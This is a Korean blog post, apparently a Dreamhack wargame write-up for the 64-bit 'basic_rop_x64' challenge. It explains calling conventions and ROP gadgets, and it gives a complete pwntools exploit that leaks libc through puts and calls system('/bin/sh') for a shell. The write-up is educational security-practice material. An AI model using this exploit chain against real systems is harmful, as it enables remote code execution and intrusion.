 ```yaml
---
published: true
image: /img
layout: post
title: Dreamhack 시스템 해킹 basic_rop_x64
tags: [Dreamhack, pwnable, wargame, writeup]
math: true
date: 2022-05-21 21:00
---
```


이번에 풀어볼 문제는 기존의 32비트 환경 pwn이 아니라 64비트 환경 pwn이다. 기본적으로 32비트와 64비트는 함수 호출 규약에 다른점이 있다. 기존 32비트 환경에서는 함수 실행에 필요한 인자들을 스택에 저장해 하나씩 불러와 사용한다면 64비트 환경은 레지스터에 먼저 저장한 후 레지스터보다 많은 인자가 필요하면 스택을 이용한다.

이러한 차이점으로 32비트 환경에서는 버퍼 오버플로우 등으로 덮어 씌우기만 하면 성공했던 시스템 해킹이 64비트로 오면서 gadget(가젯)을 이용해 함수 실행에 필요한 인자를 넣어줘야 한다


이번 문제는 ROP(Return-oriented programming)에 관한 문제이며 이 ROP 기법은 공격자가 실행 공간 보호(NXbit) 및 코드 서명(Code signing)과 같은 보안 방어가있는 상태에서 코드를 실행할 수있게 해주는 기술이다.

우선 위에서 함수에 사용될 인자를 레지스터에 저장하기 위해 가젯이 필요하다고 했다. 가젯을 설명하기 전에 인자에 저장에 사용되는 레지스터 순서를 먼저 살펴보자

```
+----------------------------------------------+
|   인텔 리눅스 64bit    |      윈도우 64bit     |
|                       |                       |
|        RDI            |           RCX         |
|        RSI            |           RDX         |
|        RDX            |           R8          |
|        RCX            |           R9          |
|        R8             |                       | 
|        R9             |                       |
+----------------------------------------------+
```
위 순서대로 레지스터에 값을 저장하며 이에 필요한 명령어 집합을 가젯이라 한다.

예를 들어 puts 함수는 인자를 1개 가지며 RDI에 인자를 넣아야 한다. 이에 사용되는 가젯은 다음과 같다.
```
pop rdi ; ret
```
위 가젯을 이용해 RSP의 값을 POP해 RDI로 넣어주는 과정이다.

이제 문제로 돌아가 문제 코드를 살펴보자.
```c++
#include <stdio.h>
#include <stdlib.h>
#include <signal.h>
#include <unistd.h>


void alarm_handler() {
    puts("TIME OUT");
    exit(-1);
}


void initialize() {
    setvbuf(stdin, NULL, _IONBF, 0);
    setvbuf(stdout, NULL, _IONBF, 0);

    signal(SIGALRM, alarm_handler);
    alarm(30);
}

int main(int argc, char *argv[]) {
    char buf[0x40] = {};

    initialize();

    read(0, buf, 0x400);
    write(1, buf, sizeof(buf));

    return 0;
}
```

위와 같은 구조를 가지고 있으며, 0x40 크기의 버퍼에 0x400의 값을 쓸 수 있어 버퍼 오버플로우를 통한 ROP가 가능하다.

우선 gdb의 info function을 통해 내장되어 있는 함수를 보자

```c++
gdb-peda$ info function
All defined functions:

Non-debugging symbols:
0x0000000000400590  _init
0x00000000004005c0  puts@plt
0x00000000004005d0  write@plt
0x00000000004005e0  alarm@plt
0x00000000004005f0  read@plt
0x0000000000400600  __libc_start_main@plt
0x0000000000400610  signal@plt
0x0000000000400620  setvbuf@plt
0x0000000000400630  exit@plt
0x0000000000400640  __gmon_start__@plt
0x0000000000400650  _start
0x0000000000400680  deregister_tm_clones
0x00000000004006c0  register_tm_clones
0x0000000000400700  __do_global_dtors_aux
0x0000000000400720  frame_dummy
0x0000000000400746  alarm_handler
0x000000000040075e  initialize
0x00000000004007ba  main
0x0000000000400820  __libc_csu_init
0x0000000000400890  __libc_csu_fini
0x0000000000400894  _fini
```

write는 인자를 3개 필요로 해 데이터를 출력하는데 puts 함수를 사용할 것이다.

이제 함수를 사용하기 위한 가젯을 찾아야 하는데 
```
ROPgadget --binary basic_rop_x64 | grep rdi 
```
명령어로 가능하다. 결과는 다음과 같다.

```c++

/file# ROPgadget --binary basic_rop_x64 | grep rdi 
0x0000000000400726 : cmp dword ptr [rdi], 0 ; jne 0x400730 ; jmp 0x4006c0
0x0000000000400725 : cmp qword ptr [rdi], 0 ; jne 0x400730 ; jmp 0x4006c0
0x0000000000400883 : pop rdi ; ret
```

우리가 필요로 하는 가젯의 주소는 0x0000000000400883이다.

이제 어떤식으로 익스를 작성할지 고민해보자.
pop명령어는 RSP의 주소에 들어있는 값을 RDI로 불러온다. gdb를 통해 확인해보면, read함수를 실행하는 중 RSP의 값은 ret+8의 주소를 가리키고 있다.

따라서 ret에 가젯 주소를, 그 다음으로 계속 변하는 libcbase의 주소를 구하기 위해 read함수의 got를 출력하기 위해 disas main을 통해 찾은 read@got 값을 넣어준다.

그 다음으로 puts을 실행하기 위해 puts@plt 값을 주어 인자로 준 read@got의 실제 주소를 puts함수를 통해 출력한다. 이후 main함수 주소를 추가해 익스플로잇 작성을 위해 main으로 다시 돌아온다.

스택 구조로 보면 다음과 같다. 스택은 위에서 아래가 아닌 아래 베이스 포인터에서 위로 쌓이는걸 고려해 보아야 한다.

```
puts@plt
read@got
gadget
sfp[8바이트] -> 임의 값
'입력 값'
```

따라서 임의 값으로 0x40 + 0x8(64비트 환경은 ret과 sfp 길이가 8바이트)만큼 sfp영역까지 덮어 씌운다. 다음 가젯 주소를 추가하고 read@got와 puts@plt를 추가한다

여기까지 파이썬 코드로 표현하면 다음과 같다.

```python
from pwn import *

conn = remote("host1.dreamhack.games", 13516);
libc=ELF('./libc.so.6')


rdi_ret = 0x400883  #가젯 주소
read_got = 0x601030
puts_plt = 0x4005c0

func_main = 0x4007ba

payload = b'A'*(0x48)
payload += p64(rdi_ret)
payload += p64(read_got)
payload += p64(puts_plt)
payload += p64(func_main)

conn.send(payload)
sleep(1)

print(conn.recvuntil('A'*0x40))
```

위 코드를 실행하면 puts을 통해 read@got가 출력된 후 다시 main 함수로 돌아온다. 이제 출력된 read@got의 실제 메모리상 주소를 통해 libcbase를 구해보자. read 함수 부분은 다시 공격할 것이다.

문제를 보면 libc.so.6 파일을 같이 첨부해준다.

이를 통해 read@got의 상대주소를 알아내고 출력된 read@got의 실제주소 - 상대주소 를 통해 libc 베이스 주소를 구한다.

다음으로 system 함수를 사용해 /bin/sh를 실행하기 위해 libc에서 system 함수의 상대주소를 구하고 libcbase와 더해 실행중인 프로그램의 메모리 상 system 함수 주소를 구한다.

이후 libc에서 /bin/sh의 문자열 주소를 찾는다.

다음 처음과 마찬가지로 가젯을 통해 systme 함수의 인자로 사용될 /bin/sh의 주소와 system 함수의 주소를 넣어 쉘을 익스 한다.

이 과정을 파이썬 코드로 나타내면 다음과 같다.

```python
from pwn import *

conn = remote("host1.dreamhack.games", 13516);
libc=ELF('./libc.so.6')


rdi_ret = 0x400883
read_got = 0x601030
puts_plt = 0x4005c0

func_main = 0x4007ba

payload = b'A'*(0x48)
payload += p64(rdi_ret)
payload += p64(read_got)
payload += p64(puts_plt)
payload += p64(func_main)


conn.send(payload)

sleep(1)

print(conn.recvuntil('A'*0x40))

leak = u64(conn.recv(6)+b'\x00\x00')
print("leak => "+str(hex(leak)))

libcbase = leak - libc.sym['read']
print("libcbase => "+str(hex(libcbase)))

system = libcbase+libc.sym['system']
print("system => "+str(hex(system)))

binsh = libcbase+list(libc.search(b"/bin/sh"))[0]
print("binsh => "+str(hex(binsh)))

payload2 = b'B'*0x48
payload2 += p64(rdi_ret)
payload2 += p64(binsh)
payload2 += p64(system)

conn.send(payload2)
conn.interactive()
```

위 코드를 통해 flag를 얻을 수 있다.